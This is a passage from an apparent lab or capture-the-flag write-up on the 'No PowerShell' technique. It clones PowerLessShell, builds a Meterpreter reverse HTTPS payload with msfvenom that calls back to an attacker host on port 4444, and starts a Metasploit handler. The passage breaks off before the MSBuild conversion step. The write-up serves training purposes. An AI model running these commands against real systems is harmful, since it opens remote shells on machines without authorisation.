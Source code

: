 ## TASK 7 : Other Techniques
### eplicate the steps of the No PowerShell technique to receive a reverse shell on port 4444. Once a connection is established, a flag will be created automatically on the desktop. What is the content of the flag file? 
First of all, we need to clone the git repository of [PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell) :

```console
root@ip-10-10-141-93:~/Desktop# git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
Cloning into 'PowerLessShell'...
remote: Enumerating objects: 368, done.
remote: Counting objects: 100% (45/45), done.
remote: Compressing objects: 100% (42/42), done.
remote: Total 368 (delta 25), reused 5 (delta 2), pack-reused 323
Receiving objects: 100% (368/368), 111.97 KiB | 1.15 MiB/s, done.
Resolving deltas: 100% (207/207), done.
root@ip-10-10-141-93:~/Desktop# ls
'Additional Tools'   live0fftheland.dll   mozo-made-15.desktop   PowerLessShell   script.ps1   test.txt   Tools
root@ip-10-10-141-93:~/Desktop# cd PowerLessShell/
root@ip-10-10-141-93:~/Desktop/PowerLessShell# ls
include  LICENSE.md  PowerLessShell.py  README.md  wmi_msbuild.cna
root@ip-10-10-141-93:~/Desktop/PowerLessShell
```
{: .nolineno }

Then, we can create our payload with msfvenom and start a metasploit handler :

```console
root@ip-10-10-141-93:~/Desktop# msfvenom -p windows/meterpreter/reverse_winhttps LHOST=10.10.141.93 LPORT=4444 -f psh-reflection > liv0ff.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 856 bytes
Final size of psh-reflection file: 3293 bytes

STARTING METASPLOIT HANDLER :

root@ip-10-10-141-93:~/Desktop# msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost 10.10.141.93;set lport 4444;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => 10.10.141.93
lport => 4444
[*] Started HTTPS reverse handler on https://10.10.141.93:4444
```
{: .nolineno }

The next step is to convert the payload to be compatible with MSBUILD tool :
